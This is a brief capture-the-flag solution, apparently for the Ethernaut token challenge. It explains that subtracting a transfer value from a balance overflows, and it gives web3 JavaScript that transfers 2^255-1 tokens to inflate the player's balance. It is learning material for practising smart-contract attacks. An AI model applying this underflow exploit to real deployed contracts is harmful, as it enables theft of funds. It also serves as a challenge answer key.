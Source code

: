 `balance - value` causes an overflow

```
const BN = web3.utils.BN;
const value = new BN(2).pow(new BN(256)).div(new BN(2)).sub(new BN(1));
contract.transfer(ethernaut.address, value);
(await contract.balanceOf(player)).toString()
```

